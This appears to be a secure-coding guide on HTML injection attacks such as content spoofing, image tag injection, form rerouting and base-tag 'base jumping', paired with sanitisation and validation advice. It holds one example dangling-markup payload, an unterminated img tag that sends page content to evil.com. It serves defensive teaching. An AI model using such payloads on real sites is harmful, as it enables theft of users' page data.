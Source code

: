 # HTML injections
-------

## Description:

Whenever an attacker can inject HTML in your application there is a variety of different
attacks he could perform such as:

1. Content Spoofing
2. Image Tag Injection 	
3. Form Rerouting
4. Base Jumping
5. Element Override
6. Hanging Textarea

Even when your application intercepts XSS injections by means of a content security policy
header it still remains vulnerable to the attacks summarized above.

## Solution:

1.Content spoofing Otherwise known as "Content Injection" or "Virtual Defacement" occurs whenever an attacker can inject code into your application. It is very important to sanitize and or encode user data before you display it on screen as HTML.
2.Image tag injection occurs whenever an attacker injects a broken image tag with a non-terminated parameter like: "img src='http://evil.com?steal.php?value= Every content after value= parameter will now be stolen and send to evil.com by the attacker till the injection finds the next occurrence of a matching single quote.
Again you should sanitize and encode the user input to prevent an image tag from being injected in your application. For whenever a user is permitted to submit an image on your application enforce and verify the application accepts valid non-broken tags only.
3.The "form" tag can't be nested. The top-level occurrence of this element always takes precedence over subsequent appearances. Again you must avoid this type by properly encoding and sanitizing your user-inputs.
4.Whenever an attacker injects a "base" tag into your application it can steal data because the tag specifies the base URL/target to where to process the data to.
The solution to base jumping would be to us absolute paths in your application such as  action='/update_profile.php'
instead of: action='update_profile.php'
5/6 can both also easily be prevented simply be encoding or sanitizing your user-input submitted towards your application.
Always validate your user input on a high level(server-side constraint). Whenever your application expects an integer you should validate and check whether the user submitted input really is what you expected it to be and otherwise, you terminate and log the request.

